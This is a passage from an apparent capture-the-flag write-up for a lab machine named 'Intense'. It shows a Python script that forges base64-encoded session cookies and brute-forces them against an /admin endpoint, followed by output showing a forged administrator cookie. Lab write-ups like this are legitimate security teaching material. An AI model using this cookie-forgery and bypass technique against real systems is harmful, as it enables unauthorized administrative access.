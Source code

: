 ```python
for guess in out:
    new_cookie_p1 = base64.b64encode(binascii.unhexlify(guess.split(" ")[-1])).decode()
    new_cookie_p2 = base64.b64encode(binascii.unhexlify(guess.split(" ")[-2])).decode()
    new_cookie = f"{new_cookie_p1}.{new_cookie_p2}"

    response = requests.get("http://10.10.10.195/admin", cookies=dict(auth=new_cookie),)
    if not "403" in response.text:
        print(f"Cookie found: {new_cookie}")
        break
```

After running it:

```bash
python3 cookier.py 
Cookie found: dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCDt1c2VybmFtZT1hZG1pbjtzZWNyZXQ9ZjFmYzEyMDEwYzA5NDAxNmRlZjc5MWUxNDM1ZGRmZGNhZWNjZjgyNTBlMzY2MzBjMGJjOTMyODVjMjk3MTEwNTs=.xKkIQ6KSq82U4wShUpSwJeUpPa9oq7Dq7AlejEpoH18=
```

### Abusing the admin API

Now with the cookie you are administrator and you can access to the `/admin`

![image9](/assets/images/htb-intense/intense9.png)
